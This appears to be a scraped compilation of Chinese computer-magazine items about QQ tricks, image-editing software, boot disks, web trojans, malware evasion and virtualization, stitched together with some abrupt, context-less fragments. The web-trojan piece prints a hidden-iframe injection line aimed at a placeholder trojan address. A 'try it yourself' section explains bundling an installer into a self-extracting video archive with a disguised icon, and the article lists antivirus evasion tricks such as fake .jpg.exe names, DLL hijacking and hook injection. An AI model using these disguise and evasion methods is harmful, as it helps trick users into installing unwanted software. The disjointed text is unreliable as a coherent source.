不仅仅是小编们遭受过QQ2009的“好友印象”的“毒害”，我也是其中一个受害者，我花费了将近2000秒的时间，终于研究出了一个对策，使得好友对我设置的“好友印象”不在好友列表中显示出来。

首先，先利用自己或朋友的另外两个QQ号对自己设置“好友印象”为“1（一大串空格）1”、“2（一大串空格）2”。设置方法如下：

第一步：依次点击“查看资料→好友印象→我要对他进行描述”

第二步：描述的内容为“1”（不含引号，以下同上），然后不停地摁住空格键，几秒钟后，再摁一下退格键，再输入一次“1”再点击“提交”。同理，设置描述的内容为“2（一大串空格）2”。

第三步：这样当好友将鼠标移到你的头像上时，就会出现如图所示的情况，其他人设置的好友印象将不会在这里显示出来。

我们只用到pssuspend.exe这个文件，解压这个文件到系统Windows\System32目录中。这个工具的使用很简单，只要单击“开始→运行→cmd”，输入pssuspend+进程名就行了。比如我们要挂起QQ，只要输入pssuspend qq.exe就行了。如果要恢复，只要加上-r参数就行了（例pssuspend -r qq.exe）。用这些语句编一个批处理，临时走开时，运行就可以了，而且恢复也很快。如果在挂起批处理的末尾再加上rundll32.exe powrprof.dll,SetSuspendState这个命令，就可以实现挂起后自动休眠了（须在电源选项中开启）。



这个方法不能暂停复制，不过可以去下载一个复制软件（比如Copy Handler等），然后再用上面的方法进行挂起。

### 小编有话说：

邢宸斐提供的方案基本没有完成题目的要求，但在其他应用环境中PSTools还是有一定用处的，有需要的一定要拿个小本记好。

挑战者：浙江/邢宸斐

### 小编有话说：

一般在QQ面板上显示出来的“好友印象”是最长的那个，所以利用这个漏洞你就可以控制可显示的了文字了，不过别人只要一查看你的详细资料，一切就都暴露了……

挑战者：广西/梁振琛

## 任务四 非主流效果

最后我们针对目前深受大家喜爱的场景、闪图等流行元素进行软件的比较。

## 评测手记

ACDSEE还保持着原来的模式，没有加入自动处理的功能，PhotoScape和彩影2008对于现在流行的一些东西，挂件、美容、闪图等功能也不具有，所以这三款软件都没有参加到本次评测中。

| 软件 | 挂件 | 场景比拼 | 闪图比拼 | 边框 | 摇头娃娃 |
| --- | --- | --- | --- | --- | --- |
| 光影魔术手 | 较多的图标饰品 | 无 | 无 | 丰富 | 无 |
| 美图秀秀 | 种类丰富、数量丰富的饰品，支持下载 | 包含逼真、非主流、可爱、其他类型场景；种类丰富可下载，支持换背景 | 条纹闪图、多图闪图，丰富且支持下载 | 种类和数量都很丰富且支持下载 | 5大类163种，不支持下载 |
| iSee图片专家 | 较多动画挂件 | 丰富场景，但不支持下载 | 较丰富闪图，但不支持下载 | 丰富边框，但不支持下载 | 无 |
| 可牛影像 | 种类丰富、数量丰富的饰品，支持下载，支持自定义 | 包含逼真、非主流、可爱、其他类型场景；种类丰富可下载 | 种类丰富，支持下载 | 没有作为重点但数量丰富支持下载 | 分两种类型，略单一，87种，不支持下载 |
| Turbo Photo | 无 | 无 | 无 | 2个大类21种 | 无 |

## 测试报告

在前面图片处理的各种测试中，光影魔术手的优势是很大的，功能的易用和丰富都要好于其他软件，但对目前流行元素没有结合好，场景替换、闪图、摇头娃娃等都不具备，很是遗憾，只能是最好的基本处理软件。而光影魔术手的缺点，则是美图秀秀的强项，与同类选手可牛影像相比，非主流效果的种类和数量都要强，同时Turbo Photo的图片修复能力是最突出的，本期的“编辑选择奖”颁给最适合常规处理的“光影魔术手”和最适合非主流处理的“美图秀秀”，希望其他选手继续努力，期待下次CFan研究院评测时能看到全面、易用的图片处理软件。

## 快速启动你的系统(1)

### 原理重现：怎样才能只花几秒钟进入系统？

其实在Linux下，有很多可以在极短的时间内完成启动。Presto 1.0就是其中的一个，它可以在15秒钟进入系统，并可以在线安装常用软件，支持WiFi无线网络连接，可以听MP3、看电影、打开Office文档。它可以在Windows下像安装一般软件那样安装，在Windows下完美卸载。遗憾的是只能试用7天，7天后将只能使用10分钟，然后自动关机。当然你可以通过重新安装软件继续使用它。

安装程序下载地址为http://download.cnet.com/Presto/3000-2094_4-10910300.html?tag=mncol，官方网站http://www.prestomypc.com/

另外，其实Windows为我们提供了一个极好的解决方案——休眠，也许很多人都直接把他禁用了以免占用硬盘，其实这是一个非常好用的功能。通过休眠，系统会将状态保存到硬盘，然后可以切断电源，不会消耗任何能源。最大的特点是解除休眠相当快速，绝对15秒以内，并且可以还原到休眼前的状态。有网友比喻：你把Windows休眠，然后放到你家地窖里，50年后挖出，开机后50年前什么样，开机后还是什么样！

### 小编有话说：

虽说可以在Windows下安装，不过这限制也太大了……

挑战者：无名（是真的没名，不是叫无名）

## 查找被占用的电话号码(1)

### 原理重现：在Excel中快速查找集团网号码以61到69开头的电话

对于本题目，如果用函数比较复杂，最后决定还是用VBA程序简单些，通过以下几步即可实现。

建立一个新表，在A1单元格输入“全部号码”，将A2至A1000区域用来输入所有号码；在B1单元格输入“已用号码”，将B2至B1000区域用来输入所有已用号码；在C1单元格创建一个命令按钮控件并将名称改为“查找号码”，将C2至C65536区域用来显示所有查找到还未分配的号码；D4单元格用来输入需要查询的号码（见图）。右键单击“查找号码”命令按钮控件，选择“查看代码”，打开VBA编辑器，输入以下代码：

```
Range("c2:c65536").Select
Selection.ClearContents
x = 2
Do While x <= 1000
y = InStr(Range("a" & x), Range("d1"))
If y > 0 Then
z = 2
p = 0
Do While z <= 1000
If Range("a" & x) <> Range("b" & z) Then
z = z + 1
p = 1
Else
```

```
z = 1001
p = 0
End If
Loop
If p = 1 Then
k = Sheets(1).Range("c65536").End(xlUp).Row + 1
Range("c" & k) = Range("a" & x)
End If
End If
x = x + 1
Loop
```

上述代码的意思是：先清除C2至C65536区域的号码，然后从所有号码（A2至A1000区域）中与需要查找的号码（D4单元格）进行比较，如果有所有号码中包含需要查找的号码，则该号码再与已用号码（B2至B1000区域）进行比较，如果该号码没有占用，则将其显示在C2至C65536区域。

此时，大功已告成，现在要做的就是将“查找号码”命令按钮控件退出设计模式，然后单击该按钮，怎么样，问题是不是已经解决了？

### 小编有话说：

本文介绍的方法是VBS（需要宏），同时查找出来的结果也包括了结尾是61的电话，所以资金和积分就要差一些了……

挑战者：甘肃/陈满红

## 黑白画映，闪盘启动方式不再迷惑

借助专业工具，你可以把闪盘制作为具备不同功能的启动盘，这个启动盘可以用来安装系统、排除故障，同样一块闪盘为什么可以具备多种引导功能？这些引导方式有什么不同？由于涉及知识比较杂，Mr Stupid将带你经历一个从学前班到毕业班的晋级过程，来一起探秘！

### 学前班：专业工具的必备良药

Mr Stupid将一块闪盘插入USB接口后，闪盘首先通电并被复位。他慢慢地讲解道，如果之前已经将闪盘设置为第一启动设备的话，接着BIOS根据该顺序，将闪盘的主引导记录读入内存。闪盘引导系统要具备如下条件：主引导记录和主引导程序是必备良药，还需保证分区表正常并存在活动主分区。对于移动硬盘和硬盘来说，要有引导功能，还必须划出主分区并激活。闪盘则只有一个分区（默认为主分区），具有不同引导功能，主要就是由主引导记录和引导程序决定。Mr Stupid总结道，那些专业工具正是通过在闪盘生成不同的主引导记录和引导程序，制作出了具有不同引导功能的可引导闪盘。

### 中级班：黑白画映

虽说是必备良药，但它们之间也存在着不同。从黑底白字的DOS时代，发展到现在最新的Windows 7，系统引导方式的不断发展，也直接导致了引导盘的不断变化，但由于DOS的启动非常经典实用，直到今日仍然广受欢迎。

- 1. DOS引导盘。Windows 98以前的系统都采用DOS引导方式。只要在DOS命令提示符下输入format c: /s则可格式化为可引导启动盘。该命令会将DOS系统文件IO.SYS（系统引导文件）、MSDOS.SYS和COMMAND.COM（DOS系统的核心文件）复制到被格式化的磁盘。由于在DOS下无法识别闪盘，而且大家也早已不用DOS系统，因此制作DOS启动盘一般都是借助专业工具，如USBoot等在Windows下进行，制作命令其实就是上述DOS命令的翻版。
- 2. Windows 2000/XP引导盘。从Windows 2000开始采用NT5.2版本引导记录，这个引导记录被加载后首先会去找这个分区下的NTLDR（NT系统的引导文件），之后读取boot.ini列出操作系统选择菜单。NT52引导记录可以通过Vista安装光盘下的bootsect.exe生成。因此要让一个闪盘可以引导NT系统，只要先执行上述命令，然后把NTLDR复制到其中即可完成引导盘的制作。实际上制作闪盘启动盘大多是PE1.0启动盘（也是采用NT52版本引导），Mr Stupid大声总结：In fact（实际上），在Windows XP下使用专用程序制作PE启动盘时，在后台执行的，就是生成引导记录和复制PE系统文件的过程。
- 3. Vista/Windows 7引导盘。Vista系统开始使用NT6.0版本引导记录，这个引导记录被加载后首先会去找这个分区下的Bootmgr（NT60系统的引导文件），接着读取BCD文件（Vista的引导保存文件）列出操作系统菜单。NT60引导记录可以通过“bootsect.exe /nt60 盘符:”生成。因此如果要制作PE2.0启动闪盘只要先执行上述命令，再把PE2.0所需文件复制到闪盘即可。
- 4. GRUB启动盘。GRUB和上述启动方式不同，它是一个多重启动管理器，可以以两种方式启动，默认启动文件是GRLDR。方法一是直接写入GRUB主引导记录到闪盘，通过主引导记录启动GRLDR，可借助老毛桃PE制作工具，在制作界面选择4即可。

### 结业班：动手做做看

明白各种启动方式的不同，最后，Mr Stupid将10年来总结的不同启动盘及制作工具公布：

| 启动方式 | 引导文件 | 制作工具及下载地址 |
|----------|----------|-------------------|
| DOS启动 | io.sys | USB-Multiboot10: http://www.911cd.net/forums//index.php?act=attach&type=post&id=1054。 |
| 2000/XP | Ntldr | 通用PE工具箱V1.7硬盘光盘闪盘完美三合一: http://big.onegreen.net/TonPE_V1.7.rar。 |
| Vista/Windows 7 | bootmgr | 先运行“bootsect.exe /nt60 U:”，复制Vista/win7光盘下除sources目录下所有文件到闪盘。 |
| GRUB | Gldr | 老毛桃PE: http://d.ayxz.com/MAvI BENW/winpe.rar。 |

## 网上‘木马’跑 看‘弼马温’如何管马

根据最新的调查显示，绝大多数的病毒威胁都来自于网络，而最常见的形式就是网页挂马了。网页本是我们获取信息的载体，怎么就成了威胁呢？是网站设计者的陷阱还是有人陷害？而同时杀软能像‘弼马温’一样管好这些‘马’吗？

### 网页：‘我本善良’

很多人在遇到网站威胁时，可能都归罪于网站，但其实网站的制作者更是冤枉，除了很少网站是黑客专门制作的挂马陷阱网站外，包含木马的网站都是被黑客利用，本身就是受害者。黑客会利用扫描工具查找网站的漏洞，并实施攻击，获取管理权限，然后就可以轻松植入木马了。例如在网站中插入：<iframe src=http://网页木马地址 width=0 height=0></iframe代码>，这样当电脑访问网站时就会自动弹出木马程序（现在网页木马可以实现后台运行模式），让浏览的电脑用户运行木马。

### 要保安全 需知‘管马’三招

了解了这个情况，很多人又开始问了，木马如何防御呢？那些杀毒软件怎么知道网页被植入木马了呢？其实网页木马不是新的品种，它和普通木马的区别只是载体的不同，以前都是放在文件、邮件中，现在在大家的防范意识高了，浏览网页的频率也高了，所以黑客将木马代码放在网页上，增加感染机会。理解了这个，安全软件防御网页木马的过程也就出来了，他们防御的原理是一样的，只是途径要首先在网络传输中完成。目前，主要的方式有以下三种：

- 1. 攻击代码识别：如果网页中被植入了木马，那么在传输中，安全软件就可以先检测代码，如果它的特征属于木马，那么就会提示网页不安全，并进行拦截了。
- 2. 行为识别：前面是简单的代码特征检测，而高级一点的方式就是分析代码的行为，不单单考察特征。如有程序对系统目录进行修改，一起删除整个分区文件等这些危险操作，那么杀毒软件都会认为有病毒攻击，从而加以阻止这些网页。
- 3. 中毒清理：网页木马攻击成功后会释放木马程序到用户计算机中，木马程序一般会生成DLL文件，修改注册表等操作，杀毒软件检测到这些，就会提示用户某些程序是病毒程序，与用户互动实现对木马运行的阻止，算是网页木马的后期防御。

### 现代社会 现代化‘管马’

针对网马攻击还有一种简洁的防御软件：外挂式浏览器防御软件，如金山网盾。此类防御系统对木马的防御原理与杀毒软件的防火墙基本相似，访问含有网马的网站时，外挂防御系统会对IE、FireFox等浏览器的Cookies进行内容过滤保护，从而过滤网马自我释放的程序，从攻击行为防御上实现对0-DAYS类的攻击防护。进入云安全时代，网页木马的防御也有了新的应用，例如，诺顿、迈克菲等安装软件增加了网页安全的预检测机制，当我们在谷歌等搜索引擎中搜索时（谷歌也推出过安全浏览功能，是利用算法来分析网页本身，有威胁的会给予提示），在结果信息的返回过程中，安装在浏览器中的安全组件会先对返回的网页进行预读，并首先对比已知的安全网页名单，如果没有则重新检测，一旦发现威胁就将结果直接在搜索结果类别中列出，这也就是使用这类软件搜索时，结果出现的时间会落后一秒的原因，云安全的引入，将这些检测更加快速，例如一旦发现某个网站挂马，那么这个信息就会迅速与全球用户共享，其他人浏览到该网页就会提示有木马，阻止网民浏览，当然，当检测到该网站消除了木马威胁后，这个网站也就又放行了。

小提示：当然一些网络木马也想出了很多怪招来躲避安全软件，有兴趣的读者可以登录http://blog.cfan.com.cn/index.php/346164/viewspace-1080585看《网页木马的诡计》一文。

## 补充挑战：把Ubuntu装进口袋里

这道题之前已经有人挑战过了，但方法太过于繁琐。这里我就给大家带来一种简便的方法。

- 第一步：下载必备的软件EasyBoot、UltraISO、WinRAR，当然还有主角Ubuntu9.04（下载地址：http://mirror.lupaworld.com/ubuntu/releases/jaunty/ubuntu-9.04-desktop-i386.iso），另外，你还要准备‘老毛桃PE最终修改版’。
- 第二步：以EasyBoot安装在D:\EasyBoot目录为例，用Winrar把PE和Ubuntu的镜像打开，解压到D:\EasyBoot\disk1文件夹下，然后下载http://work.newhua.com/cfan/200915/wj.rar，解压到D:\EasyBoot\disk1\ezboot目录下覆盖同名文件。进入EasyBoot，直接点击‘制作ISO’按照提示，做出mycd.iso。
- 第三步：打开UltraISO，打开刚才制作的mycd.iso，点击‘启动→写入硬盘镜像’，将镜像写入闪盘即可。

### 小编有话说：

老题翻新，方法不错，但由于时间问题，‘积分奖金’只能委屈一下了。

挑战者：王一平

## 查找占用的电话号码

要实现这个功能其实很简单，只需借助软件彩信猫王手机号码通（下载地址http://www.onlinedown.net/soft/63757.htm）即可，经过测试可以达到题目使用要求。此软件可以根据个人需求选择将所有号码排序。

### 小编有话说：

这款软件虽然是第三方软件，但也可以导入电话数据，但是其他数据是无法导入的，而且软件本身是管理手机的软件，对于公司分机管理还是有一定难度的。

挑战者：羽龙## 人人喊打 恶意软件还能生存？

热点总是不断更新，木马的流行让我们忘记了曾经“横行街头”的恶意软件，无论是优化软件，还是防护软件都能检测恶意软件。可谓恶意软件已遇到“老鼠过街，人人喊打”的局面。那这恶意软件有没有因此而绝迹呢？有实验有真相！

## 重兵防护下轻取城堡

最近有朋友哭诉，在下载一个工具时，不幸搜索到某软件下载站，在运行下载的程序时，360安全卫士和WinPatrol频繁报警，在点击了若干次禁止之后，仍然发现电脑被强行安装了若干个互联网软件。相当不解，恶意软件岂能如此猖狂？不相信，那我们就在虚拟机中模拟下这次的经历。

第一步：先到原来的网站下载软件包，在该页面的描述中，这个检测工具的大小为1.59MB，而下载完成后，实际大小仅为196KB，文件名为softii_free_setup.exe。有经验的网民，会从中发现端倪。

第二步：当然，很多人会直接运行，运行后会发生什么呢？360安全卫士不断出现拦截报告，系统会弹出不同的网址导航，但金山网盾和360安全卫士均未报告网页挂马。测试中，这样连续出现的提示框超过10次，笔者全部选择了阻止或卸载。通过截图大致知道，360安全卫士只是保护注册表的关键键值不被修改，而运行某个程序之后产生的其他动作，比如下载木马，下载安装其他软件，都没有防止。

第三步：最终测试机因为恶意软件的驱动BUG造成系统崩溃蓝屏，重启后情况和之前的遭遇一样，开始菜单里发现了多个不请自来的软件。当再次用金山急救箱扫描时，发现了几处威胁。

在上面的例子中可以看到，恶意软件并未通过网页挂马传播（在中招后自动弹开多个网址导航页，金山网盾和360均未报警），而是通过挂羊头卖狗肉式的欺骗来诱使网民主动下载并执行木马程序（自动下载并安装了多个小软件）。目前恶意软件的商业价值链条依然存在，结合病毒的植入更加难缠，巨大的利益诱惑下，恶意软件作者绞尽脑汁，总能找到一两个暂时可用的防御窗口。建议多备几个安全防御、病毒清除的工具，提高安全意识，才能在遭遇病毒木马破坏时将损失降到最低。

## 亡羊补牢 兵败的反思

前面看到了恐怖的遭遇，是不是感觉防护软件弱不禁风呢？不用这么悲观，平时见到的大部分威胁还是可以防护的。只是碰到类似上面的变态机制的恶意软件才会漏掉。理解防护软件的机制，你就能对它们有个清醒的认识了。

360安全卫士、看门狗WinPatrol之类的这种软件一般都是对于系统容易感染病毒的几个关键文件进行监控，例如：注册表启动项、系统服务、驱动、当前进程、IE插件。采用的是文件名识别，简单病毒库技术进行判断。当一个恶意程序在系统目录下释放文件，运行以后，开始写注册表的时候，360安全卫士就会弹出提示，询问是否要修改，并且同时会对这个程序与恶意软件库中的恶意程序代码进行比对，如果发现一样的，就会提前作为病毒进行处理。

另一方面，恶意软件之所以被人们叫做“恶意”是觉得很烦人，比如弹出广告，开机自动弹出，无法直接卸载等，但是这类软件本身并不破坏操作系统，也不盗号，也就是说没有明显的病毒行为，在这种情况下杀毒软件是不会将其作为病毒直接处理的。很多恶意软件厂商会与病毒进行勾结，当一个病毒运行后，会自动进行释放恶意软件并安装，杀毒软件发现病毒后将病毒进程结束甚至删除，但如果被病毒释放出来的恶意程序本身没有特别大的恶意行为时，就不会去处理这些被释放的恶意软件。这就是360安全卫士反复提示，但重启后，系统中被安装了很多垃圾程序的原因。

## 此消彼长 永存的技术对抗

上面我们看到了防护软件的机制，不过我们的疑问还没有完全解开，为什么恶意软件还有办法生存呢？这就要看到它们恶意的一面了。反恶意软件与恶意软件的对抗胜利不会固定在某一方，胜利只是暂时的。恶意软件采取了很多措施来逃避防护软件的查杀。目前比较流行的逃避方法有两种：绕和杀。杀就是指先杀掉防护软件，再运行。这类情况还是较少发生的。恶意软件本身就是只为了加大安装量来谋求利益，只有当恶意软件和病毒联合后才会发生这情况，而且都是病毒的行为。这种情况也就跟病毒与杀毒软件的对抗一样了。下面我们具体来看恶意软件常用的“绕”。

恶意软件通过“伪装”的方法绕过杀软的监控。常见的伪装方法有这么几种：

1.  装扮成普通安装程序，上面我们看到的例子就是以软件安装包图标进行伪装，欺骗用户点击。病毒包括很多小软件，用户点击后就会自动被安装多个恶意软件。像这种捆绑，使用很多捆绑软件就可以轻松搞定，还可以在一段电影中捆绑恶意软件或挂马网站等。

## 动手试试

这种常见的捆绑，你也可以自己做的，例如我们可以把几个软件的安装放在RM文件里，播放视频文件软件就会自动安装了。这种方式实现的模式有很多，最简单的就是WinRAR来做。准备好一个视频，一个软件安装文件，同时选中这两个文件，创建压缩文件，模式设为自解压的模式，然后点击“高级”，在“自解压选项”中，解压路径随意填写，下方的“解压前运行”选择软件，“解压后运行”选择视频文件就可以了。最后，与平时不同的操作就是利用图标美化工具，将捆绑后的文件图标进行修改就可以了。

2.  伪装成文件夹、Word等正常图标：前一段很多流行病毒都会感染闪盘，将U盘中的EXE文件，变成立件夹图标，用户点击后就会中招。
3.  伪装成JPG图标：当下流行的“XX门”照片、视频基本上用这个方式传播。“XX门艳照门全集照片最新更新独家1天后作废***.jpg.exe”用一个非常长的文件名来掩饰，其实真正的扩展名是EXE，如果用户打开也就中毒了。
4.  把修改注册表操作的代码放在不同的位置中，让防护软件无法判定其行为好坏。
5.  采用进程守护技术，恶意程序运行起来以后会运行两个或两个以上的进程，当防护软件发现了一个恶意进程并干掉后，剩下的进程会马上释放出一个新的进程，几个进程不断进行相互守护。
6.  突破防护软件的主动防御：恶意程序采用的是程序功能的拆分，比如：用REG文件修改注册表，文件操作可以用系统提供的脚本（BAT、WSF、JS、VBS）等。

## 小提示：

要绕过主动防御，必须存在一个前提，就是防护软件存在防御盲区。比如，防护软件监视了注册表，监视了注册表各个启动项；无法通过注册表实现自启动。那么可以使用其他方法，比如DLL劫持，PE文件感染来实现自启动。再比如，防护软件屏蔽了远程线程的注入方式，那么使用普通的钩子进行注入。

（文/铁军 戚子）

## CPU虚拟化，真的有用？

预装Vista的用户怀念Windows XP的简洁，而使用MAC的用户想念Windows XP的兼容，要是在同一台机器上能虚拟出Windows XP系统就好了。于是乎，不少用户想到了CPU虚拟技术。其实，CPU虚拟技术本身就是用于扩大硬件的容量，用来简化软件重新配置的。其实你不知道的是，Windows 7下就有官方的Windows XP虚拟机哦！

## 虚拟化功能 一机真正多用是正途

试想一下，借助虚拟化，1台PC上可以运行Windows 95/98/Me/2000/XP，或者是任何你需要使用的系统。比如为了兼容性。并且任何一个操作系统几乎不需花任何时间就可以被启动，即使它崩溃了，也只需简单地将它重置一下，然后立即就可以使用，那该有多方便。如果你正同时运行几个操作系统，当你准备给其中一个载入新的映像时，你可马上将它关闭，并把该系统正在处理的工作分流给其他系统运行，该有多高的部件及系统利用率。

不过，这对CPU而言是个极大的负担，为此，CPU厂商才设计出了支持硬件虚拟化的技术，让CPU能够在虚拟机下提供更好的性能表现。Intel的称为Intel-VT硬件虚拟化技术，AMD的则称为AMD-V硬件虚拟化技术。由于Intel和AMD的处理器都是基于同样（X86）的构架，因而CPU硬件虚拟技术的本质也都大致相同，都是为子操作系统提供专门的执行、切换区域，来避免虚拟系统的频繁协调操作，从而提升稳定性和性能。另外，如果你的处理器不能支持64位程序，也可以通过虚拟机来运行这些程序，当然，这样的应用就少之又少了。

## 别被蒙蔽 虚拟技术提升的不是CPU性能

虚拟操作系统的软件如VMware在传统情况下是直接调用系统资源，为虚拟系统提供性能，简言之就像是软解高清电影（依靠软件计算）。而CPU的虚拟化技术则可以直接调用硬件资源（CPU资源），就如同高清电影的硬解（依靠硬件处理）。无疑后者会大大提高虚拟系统的运行效率。可能喜欢玩游戏的玩家都知道，PC上有很多游戏机的模拟器，但是，他们往往需要超过被模拟游戏机数倍，甚至是数十倍性能的PC才能全速模拟。比如PS2模拟器，原因就在于他们利用的是纯粹的系统资源，在一个系统之上去模拟另一套系统。

CPU虚拟化技术带来极高的部件和系统利用率，那是不是意味着它可以提升CPU的性能？用户不要被字面的意思所欺骗，实际上，CPU在虚拟机中并没有多大的变化，倒是内存和磁盘性能有了不少的提升。例如，WinRAR这款要求内存的软件在有VT技术的子系统中较没有VT技术的就有近13%的性能提升。

由于内存性能的提升，数据很容易地就可以缓冲释放，那么磁盘性能强劲也就顺理成章。

但是，这并不是说，虚拟机中的操作系统可以达到普通操作系统相当的性能。毕竟除了CPU的计算能力、内存性能、磁盘性能外，还有很多硬件资源不可利用——比如显卡，无论你的CPU是否支持虚拟化技术，在虚拟系统中播放视频文件依然无法让人满意。也许未来NVIDIA的CUDA（计算统一设备架构）这类技术会让虚拟机的显卡性能突飞猛进，但至少现在还不可以。

## 小知识：什么是CUDA？

CUDA是由NVIDIA所推出的一种整合技术，它可以让编程人员最大限度调用GPU（图形处理器），让他的计算能力在更多领域有所发挥，而不是显卡只能用于游戏。

## 启用虚拟化技术

要想启用CPU的虚拟化技术，那么就必须在硬件的底层进行设置。只有在BIOS中正确开启了CPU的虚拟化功能，才能真正实现更高性能的虚拟机环境。Intel平台下，在BIOS中找到Intel Virtualization Technology一项（99%的主板BIOS都会如此注释），将其设置为Enabled（激活）；AMD平台下，则要找到BIOS中的Virtualization一项，同样将其更改为Enabled（激活），此时保存退出即可。两个平台的选项，一般都设计在高级BIOS设置中（Advanced BIOS Features）。

（文/俞木发）

## 消息信息定时发送

原题重现：如何定时给老板发送QQ消息 一看到这道挑战题，我就想：网上有没有现成的软件实现定时发送QQ消息呢？但是经过一番苦找也没找到。怎么办？用强大的但比较复杂的Autohotkey？想一想都觉得复杂，更别说实现了。有什么简单易行的办法吗？最后我决定用刚学的VBScript试一下，没想到，真的成功了。

```vbs
set ws=wscript.createobject("wscript.shell")
ws.run "d:\发送信息",0,true
wscript.Sleep 7000
ws.SendKeys "ftr.q j tsg sm wbg ,trn gmdh go khvewq rbc wh gc .",true
ws.SendKeys "^{Enter}"
```

第一步：打开记事本，输入以下内容：
@echo off
start "C:\Program Files\Internet Explorer\IEXPLORE.EXE" tencent://message/?uin=*********&Site=http://wpa.qq.com/msgrd?V=1&uin=……
exit
另存为“发送信息.bat”，保存到D盘根目录下（其中……为对方的QQ号码）。

第二步：打开记事本，输入以下内容：
set ws=wscript.createobject("wscript.shell")
ws.run "d:\发送信息",0,true
wscript.Sleep 7000
ws.SendKeys "ftr.q j tsg sm wbg ,trn gmdh go khvewq rbc wh gc .",true
ws.SendKeys "^{Enter}"
另存为“发送信息.vbs”，保存到D盘根目录下。

第三步：打开记事本，输入以下内容：
start "QQ" "C:\Program Files\QQ\QQ.exe"
ping 127.0.0.1 -n 15
cd\
d:
start 发送信息.vbs
exit
另存为“挑战.bat”，保存到D盘目录下。

第四步：打开“任务计划”文件夹后，双击其中的“添加任务计划”，点击“下一步”，接着通过“浏览”定位到D盘下的“挑战.bat”，然后在“执行这个任务”中选择“每天”，点击“下一步”，将“起始时间”设置为“上午：8:00”，点击“下一步”，输入当前用户的密码，最后点“完成”保存设置就可以了（因为从QQ登录到QQ发送信息是需要一定的时间的。如果想实现准时8:00发送信息，只要将“起始时间”往前调一下就可以了）。

小提示：“wscript.Sleep 7000”语句是VBS脚本语言中的一个延时命令。延长时间可以根据自己的需要重新调整。单位为毫秒。所以这条语句的作用就是“延长7秒执行后面的命令”。
“ws.SendKeys "ftr.q j tsg sm wbg ,trn gmdh go khvewq rbc wh gc .""中的SendKeys语句表示在活动窗口输入双引号里面的按键。而整个“ftr.q j tsg sm wbg ,trn gmdh go khvewq rbc wh gc .”为“老板，我是笨机仔，我现在来跟你报个到。”的五笔编码，用拼音输入法的朋友将这里修改成要发送消息的拼音即可。

到这里整个挑战就结束了。现在每天早上8点企鹅都会准时“起床”发送QQ消息替我们向老板报到了。
要想成功实现QQ消息自动发送，需要注意以下几点：
①必须添加对方为你的好友，否则在聊天窗口发送信息时会弹出QQ身份验证窗口，从而导致挑战失败。
②调整默认输入法为中文输入法。
③设置QQ发送消息为“按Ctrl+Enter键发送消息”。在QQ用户登录界面，勾选“自动登录”，然后输入QQ账号和密码，成功登录后，退出QQ。这样就可以实现QQ自动登录了。

小编点评：方法不错，而且也能实现定时发送，重要的是这个方案肯定可以让所有人用上，包括搞点恶作剧……
挑战者：秦皇岛/郑伟龙

## 只许前进不后退 你写的文字后退后还有吗

在博客或者论坛中，如果编辑的文章提交后发现出错了怎么办？废话，修改吧。可是细心的朋友发现，在一些博客或论坛中，在线编辑完文字，点击提交后，如果出现问题，点后退，还可以看到之前编辑的文字，而有的博客和论坛就不行，这是什么原因呢？

根据客户端文字信息保存的位置不同，这个问题要分两种情况：一种是文字信息保存在客户端的缓存中，比如常用的论坛评论信息提交；一种是保存在网站的服务器中，比如博客网站的博文提交。首先让我们来看看论坛评论信息的提交。

在平时浏览网站的时候，我们的计算机上通常都保存有相应的网页的缓存信息，当然也包括论坛评论提交的信息。单击回退按钮后，浏览器读取缓存文件，之前的信息就会重现。这样无疑会方便我们重新编辑，可是这对网站是不利的，因为这样可能会产生重复提交，另外还有安全方面的隐患（比如登录信息）。正是因为存在着这样的缺点，很多论坛很多网站采用一些技术，避免通过回退或者刷新按钮看到刚刚编辑的文字。常用方法就是加入代码，让浏览器不保存缓存和让网页迅速过期，即提交后表单上的数据不会被浏览器的缓存保存。如果此时再遇到刷新或者后退请求时，就会显示“网页已过期”，数据也就不会重复提交了。

对于博客来说，我们希望更安全的随时保存数据，不但要求回退后能看到数据，甚至要求计算机断电后网站也能保存数据。现在流行的博客都有这样的功能：当我们撰写博客页面，博客系统会每隔三分钟或五分钟与服务器进行通信，根据用户名的不同将文章的内容提交到服务器的不同位置，保存为草稿。如果文章发布不成功就异常退出（如断电），下次登录博客，可以看到草稿原件。由于这种模式客户机和服务器频繁进行通讯，对博客系统的服务器要求很高，所以有些博客系统不支持这样的保存。这时我们怎么做呢？虽然有很多工具来支持实时保存，不过最简单的方法还是先在本地写，然后复制到博客中。

（文/赵建超 胡学刚）

## 有怪兽？探秘系统文件夹下的WinSxS

### WHY？体积太大，源于认真

“救命啊，有怪兽！”阿呆大叫，他刚装了Vista系统，就发现了一个神秘的目录：WinSxS，它的体积庞大，达到了15GB，文件繁多，多到了数不胜数。笔者系统下该目录大小也高达8.85GB。它有什么作用？为什么体积会如此巨大？可以对它进行瘦身吗？今天就一起揭开这头怪兽的神秘之身。

了解了WinSxS的作用，其实就很容易了解它为什么会不断“变肥”的原因了。因为每次系统更新都会在其中添加新版本的文件。比如，对于Vista系统来说，就有6.0.6000， 6.0.6001（SP1）， 6.0.6002.*（SP2）等版本。打开C:\windows\winsxs目录，在其下就会发现很多类似“msil_accessibility……d92a52217”的目录。

小提示：这一长串文件名中的“_accessibility”就是表示DLL文件名称（打开该文件夹后可以看到Accessibility.dll文件以及版本号），4dd6596d92a52217是补丁编号，6.0.6000.16386则表示不同Windows版本号，里面保存的是同一名称的DLL文件（只不过版本号不同而已）。

### WHO？前世秘书，今生备案

WinSxS其实并不是安装了Vista后才有的新鲜事物，早在XP时代就藏身于系统目录下。根据微软官方解释，WinSxS（Windows Side-by-Side）是系统用于存储各个版本的组件，减少因为动态链接库（Dynamic Link Libraries， DLL）引起的配置问题（DLL hell），组件的多个版本都存储在这个文件夹中，它就相当于一位辛勤认真的秘书，充分履行自己的组件备案工作。此外，这也是Vista组件化的技术基础。除了那些组件，这里还存放一个或多个二进制文件，一个索引文件，还有一个描述安装过程如何进行的XML格式文档。这样每当系统需要任何一种文件的时候，都会从这个文件夹找到相应的文件。

为什么要存储各个版本的组件呢？这主要是由于系统补丁的不断升级造成的。正常情况下，微软一般一个月就要发布一次补丁升级告示，每次升级都会更新大量的组件。而对于许多应用程序来说，它们的更新速度显然跟不上微软的脚步。如果系统更新时不把旧版本组件进行保留，而一些应用程序在运行时只能调用旧版本DLL，这就会产生DLL配置问题，甚至导致应用程序无法运行。因此，为了提高系统兼容性（也为了便于回滚到旧版本），微软推出了这位秘书兼备案工作者，用于存放各个版本的组件（如SP1、SP2、SP3等版本）。

### HOW？过于占地，如何减肥

这个目录是在系统分区，给系统备份和恢复带来诸多不便。试想一想，系统备份如果多加15GB数据，显然会增加不少备份时间。因此，需要对它进行减肥，以便减少备份和恢复时间。

